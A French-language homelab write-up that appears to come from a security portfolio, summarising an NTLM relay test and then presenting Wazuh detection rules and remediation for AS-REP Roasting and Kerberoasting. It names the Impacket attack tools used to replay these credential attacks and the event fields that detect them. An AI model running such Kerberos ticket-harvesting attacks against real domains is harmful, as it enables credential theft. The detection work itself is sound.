

### Enseignement

- Le SMB signing actif par défaut sur les versions récentes de Windows bloque efficacement le relay SMB→SMB/LDAP classique — mais **n'importe quel protocole HTTP/WebDAV authentifié en NTLM reste exploitable** si la victime ne force pas un canal alternatif.
- La chaîne d'attaque a été démontrée comme **entièrement fonctionnelle techniquement** jusqu'à l'énumération des privilèges d'un compte Enterprise Admin capturé en clair ; seule l'absence de certificat LDAPS (aucune PKI/AD CS déployée dans ce lab) a empêché l'exploitation finale (création de compte ou DCSync complet).
- Cette limite est spécifique à l'environnement de lab : la majorité des domaines d'entreprise réels disposent d'AD CS et de LDAPS fonctionnel, rendant cette attaque pleinement exploitable dans ces contextes.
- Remédiation : forcer le SMB signing sur **tous** les hôtes du domaine (pas seulement ceux testés), désactiver NTLM au profit de Kerberos uniquement quand possible (`Network security: Restrict NTLM`), et surveiller les authentifications NTLM atypiques (ex: comptes à privilèges s'authentifiant vers des hôtes non habituels) via SIEM.


## Détection Wazuh mappée MITRE ATT&CK — AS-REP Roasting et Kerberoasting

### Mise en place de l'infrastructure de détection

Un manager Wazuh (v4.9.2, Amazon Linux 2023) a été déployé avec deux agents enrôlés sur `DC01` et `WIN11`. La mise en place a nécessité plusieurs corrections :

- **Réseau** : la VM Wazuh avait été provisionnée sur un sous-réseau NAT différent (`192.168.254.0/24`) de celui du reste du lab (`192.168.10.0/24`). IP statique reconfigurée sur `192.168.10.50` via `/etc/sysconfig/network-scripts/ifcfg-eth0` pour rétablir la connectivité agent↔manager.
- **Audit Kerberos côté DC** : les sous-catégories d'audit avancé `Service d'authentification Kerberos` et `Opérations de ticket du service Kerberos` ont été activées via `auditpol` (nécessaire pour générer les Event ID 4768/4769 avec le niveau de détail requis par les règles de détection).
- **Archivage complet** : `<logall>yes</logall>` activé côté manager pour confirmer la réception brute des événements avant de travailler sur les règles de corrélation (`archives.json`).

### Règle 1 — AS-REP Roasting (T1558.004)

Le marqueur distinctif de l'AS-REP Roasting est une demande de TGT (**Event ID 4768**) avec `PreAuthType = 0`, signifiant qu'aucune pré-authentification Kerberos n'a été utilisée — comportement normal uniquement pour les comptes marqués `DoesNotRequirePreAuth`.

```xml
<rule id="100003" level="10">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^4768$</field>
  <field name="win.eventdata.preAuthType">^0$</field>
  <description>AS-REP Roasting detecte : TGT demande sans pre-authentification pour le compte $(win.eventdata.targetUserName)</description>
  <mitre>
    <id>T1558.004</id>
  </mitre>
</rule>
```

Confirmation dans `archives.json` du champ clé avant d'écrire la règle :



Après rejeu de l'attaque (`impacket-GetNPUsers`), l'alerte est déclenchée avec succès :



```
Rule: 100003 (level 10) -> 'AS-REP Roasting detecte : TGT demande sans pre-authentification pour le compte svc_legacy'
```

### Règle 2 — Kerberoasting (T1558.003)

Le marqueur distinctif du Kerberoasting est une demande de ticket de service (**Event ID 4769**) utilisant un chiffrement RC4 (`0x17`), faible et toujours présent par compatibilité sur de nombreux comptes de service, ce qui en fait la cible privilégiée de cette attaque.

```xml
<rule id="100002" level="12">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^4769$</field>
  <field name="win.eventdata.ticketEncryptionType">^0x17$</field>
  <description>Kerberoasting detecte</description>
  <mitre>
    <id>T1558.003</id>
  </mitre>
</rule>
```

Après rejeu de l'attaque (`impacket-GetUserSPNs ... -request`), l'alerte est déclenchée :



```
Rule: 100002 (level 12) -> 'Kerberoasting detecte'
```

Le ticket demandé ciblait `svc_sql` depuis le compte `svc_legacy`, confirmant la détection sur la cible exacte identifiée précédemment via BloodHound.

### Enseignement

- Les Event ID Windows Kerberos (4768, 4769) sont généralement désactivés ou non journalisés en détail par défaut — une base AD "out of the box" ne permet **aucune** détection de ces techniques sans configuration explicite de la stratégie d'audit avancée.
- Le champ `PreAuthType` et le type de chiffrement du ticket (`ticketEncryptionType`) sont des indicateurs fiables et peu susceptibles de faux positifs lorsqu'ils sont combinés à l'Event ID correspondant.
- Remédiation complémentaire à la détection : désactiver RC4 au profit d'AES uniquement (`msDS-SupportedEncryptionTypes`) rendrait le Kerberoasting RC4 inopérant et simplifierait la détection résiduelle (toute présence de RC4 deviendrait anormale par définition).
- Prochaine étape : mapper la détection du NTLM Relay (T1557.001), qui nécessite une approche différente (corrélation d'authentifications NTLM atypiques plutôt qu'un simple Event ID Kerberos).
